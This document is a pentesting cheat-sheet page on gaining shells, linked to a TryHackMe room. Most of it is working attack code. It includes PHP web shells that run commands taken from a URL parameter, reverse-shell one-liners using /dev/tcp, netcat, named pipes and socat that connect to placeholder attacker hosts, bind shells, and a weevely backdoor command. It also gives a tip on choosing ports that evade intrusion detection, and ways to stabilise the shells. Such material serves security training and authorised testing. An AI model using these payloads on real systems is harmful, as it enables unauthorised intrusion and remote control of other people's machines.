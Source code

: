 # Shell

[![introtoshells](../../_badges/thmp/introtoshells.svg)](https://tryhackme.com/room/introtoshells)
[![Reverse Shell](../../_badges/poat/reverse_shell.svg)](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)

<div class="row row-cols-md-2"><div>

The best kind of situation for a hacker is when it's possible to run commands on the target, or better, to run code on the target. The hacker will typically exploit a vulnerability <small>(ex: file upload, command injection...)</small> leading to a **RCE**

* Remote Command Execution
* Remote Code Execution

On Kali, you can find preinstalled reverse/web shells inside ([GitLab](https://gitlab.com/kalilinux/packages/webshells))

```bash
$ ls /usr/share/webshells
```

> If your target is missing a binary, you may be able to download a precompiled version on [andrew-d GitHub](https://github.com/andrew-d/static-binaries/tree/master/binaries) (2.3k ⭐).
</div><div>

Using an attack vector (ex: file upload), we can use

* a **reverse shell**: we open a port on our machine, and the target connects to it. We can run commands on the target and hopefully do a successful privilege escalation.
* a **bind shell**: we open a port on the target and connect to it. This is like SSH, but we with a port we picked, and no login/password.
* a **web shell**: we are using a webpage with a form to run commands. It's a bit hard to use, but it may be the only way.

> To avoid alerting IDS, a bind/reverse shell should use a port that would not be suspected such as `443` (HTTPS).<br>
>
> It's not always possible to use a bind/reverse shell, there will most likely be a firewall blocking access.
</div></div>

<hr class="sep-both">

## Tools to generate payloads

A payload is a code leading to a reverse/bind/web shell. You will pick one based on criteria like the platform...

<div class="row row-cols-md-2"><div>

🐍 [msfvenom](metasploit/msfvenom.md) is a famous **script** to generate payloads. 🐍

There is a **website** called [revshells](https://www.revshells.com/) that is also giving commands to listen, and some of msfvenom payloads.
</div><div>

There is a **script** called [revshellgen](https://github.com/t0thkr1s/revshellgen) (0.3k ⭐) that is an automated and simplified interface to create payloads.

There is a **script** called [ShellPop](https://github.com/0x00-0x00/ShellPop) (1.4k ⭐, 2018/2019) that is a simplified interface to create payloads.
</div></div>

<hr class="sep-both">

## web shell in PHP

If you created a file **xxx.php**, then you can run commands by accessing the URL **xxx.php?cmd=payload**. The result is wrapped with `<pre>` so that the result is not formatted and displayed raw. I added ` 2>&1` to redirect errors.

<div class="row row-cols-md-2 mt-4"><div>

* ➡️ compacted web shell with `shell_exec`  ([doc](https://www.php.net/manual/en/function.shell-exec.php))

```php
<?="<pre>".shell_exec(($_GET['cmd'] ?? "whoami")." 2>&1")."</pre>"; ?>
```

which is the same as

```php
<?php echo "<pre>".shell_exec(/* code */)."</pre>"; ?>
```

* ➡️ simple web shell with `system` ([doc](https://www.php.net/manual/en/function.system.php))

```php
<?php
echo "<pre>";
echo system(($_GET["cmd"] ?? "whoami")." 2>&1");
echo "</pre>";
?>
```
</div><div>

* ➡️ simple web shell with `exec` ([doc](https://www.php.net/manual/en/function.exec.php))

```php
<?php
$output = "";
exec(($_GET["cmd"] ?? "whoami")." 2>&1", $output);
echo "<pre>".implode('<br>', $output)."</pre>";
?>
```

* ➡️ simple web shell with `passthru`  ([doc](https://www.php.net/manual/en/function.passthru.php))

```php
echo "<pre>";
echo passthru(($_GET["cmd"] ?? "whoami")." 2>&1");
echo "</pre>";
```

* ➡️ [weevely3](https://github.com/epinna/weevely3) (2.7k ⭐)

```bash
# generate a webshell.php protected by "password"
$ weevely generate <password> webshell.php
# connect to the web shell
$ weevely URL/webshell.php <password>
# see help
# ex: create a reverse shell
$ :backdoor_reversetcp IP PORT
```
</div></div>

<hr class="sep-both">

## Reverse shell

<div class="row row-cols-md-2 mt-3"><div>

* ➡️PHP pentest monkey

You could check out [this script by pentestmonkey](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) (1.4k ⭐, 2015).

```bash
$ cp /usr/share/webshells/php/php-reverse-shell.php /tmp/revshell.php
# ex: listen on HOST_IP port 4444
$ sed -i 's/127.0.0.1/HOST_IP/' /tmp/revshell.php
$ sed -i 's/1234/4444/' /tmp/revshell.php
```

* ➡️ Using netcat

```bash
# on the hacker machine
$ nc -lnvp port
```

```bash
# on the target
$ nc -c /bin/bash hacker_ip port
# or if -e is available
$ nc hacker_ip port -e /bin/bash
```
</div><div>

* ➡️ Each of the commands below is connecting to `IP:PORT`

```bash
# tcp socket
$ /bin/bash -i >& /dev/tcp/IP/PORT 0>&1
# named pipe
$ rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc IP PORT >/tmp/f
```

* ➡️ Socat is creating a socket on each host and supports encryption.

```bash
# l = listen
$ socat TCP-L:port - # listen
$ socat TCP:hacker_ip:port EXEC:"bash -li" # connect from Linux
PS > socat TCP:hacker_ip:port EXEC:powershell.exe,pipes # connect from Windows, cmd.exe too
```

```bash
# more stable if target and host are running Linux
$ socat TCP-L:port FILE:`tty`,raw,echo=0
$ socat TCP:hacker_ip:port EXEC:"bash -li",pty,stderr,sigint,setsid,sane 
```

```bash
# encryption
$ openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt
$ cat shell.key shell.crt > shell.pem
# use 
$ socat OPENSSL-LISTEN:port,cert=shell.pem,verify=0 [...]
$ socat OPENSSL:hacker_ip:port,verify=0 [...]
```

</div></div>

<hr class="sep-both">

## Bind shell

We are exchanging sides with what we do in reverse shells. Now you execute the code to listen on the target, and connect from your machine.

<div class="row row-cols-md-2"><div>

* ➡️ Example with netcat

```bash
# on the target
$ nc -lnvp port -e /bin/bash
```
```bash
# on the hacker machine
$ nc target_ip port
```
</div><div>

</div></div>

<hr class="sep-both">

## Stabilize reverse/bind shells

<div class="row row-cols-md-2"><div>

Usually, when opening a reverse/bind shell, the shell is quite unstable

* 🚀 you can't use commands requiring user input, such as `sudo` asking for a password, or text-editors

* 🍃 You can't clear nor resize your terminal

* 👑 There is no auto-completion, arrows...

* ⛔ If you press CTRL+C, the shell dies, so you can't cancel a remote command

> Note that note every shell can be upgraded. For instance, I had issues with the PHP reverse TCP shell in which I couldn't enter `bash` nor call `python` to upgrade my shell. But, when I used pentestmonkey reverse shell, the same commands you can see here worked.

* ➡️ Use a wrapper such as [penelope](https://github.com/brightio/penelope) (0.3k ⭐)

```bash
$ git clone https://github.com/brightio/penelope.git
$ cd penelope
$ python penelope.py 4444
xxx@yyy:path$ # CTRL+C / ...
# on Linux: OK
# on Windows: only a basic shell
```

> You can press F12 to open penelope session manager, and use utilities to upload/download files... Use `interact 1` to go back.

* ➡️Use a wrapper such as [pwncat-cs](https://github.com/calebstewart/pwncat) (1.8k ⭐)

```bash
$ pwncat-cs -lp 4444
```

* ➡️Use a wrapper such as [pwncat](https://github.com/cytopia/pwncat) (1.5k ⭐)

```bash
$ pwncat -lvv 4444
```
</div><div>

There are a few solutions way to make things better

* ➡  Manually

```bash
$ python -c 'import pty;pty.spawn("/bin/bash")'
xxx@yyy:path$ export TERM=xterm # can use clear...
# test with echo $TERM in another terminal
# xxx@yyy:path$ export TERM=xterm-256color
xxx@yyy:path$ # CTRL+Z
kali@kali:/tmp$ stty raw -echo; fg
xxx@yyy:path$ # can use CTRL+C / ...
xxx@yyy:path$ exit
kali@kali:/tmp$ reset # restore your terminal
# you may have to close your terminal
# if it does not respond
```

* ➡️ Manually resize your terminal

First, open another terminal and resize it to the size you want. Use `stty -a` and take note of the number of rows/columns.

Then, In the terminal to resize, use `stty rows n` and `stty cols n`

* ➡️ Use a wrapper such as [rlwrap](https://github.com/hanslub42/rlwrap) (1.8k ⭐)

```bash
$ sudo rlwrap nc -lvnp 4444
xxx@yyy:path$ # still CTRL+C not working
```
</div></div>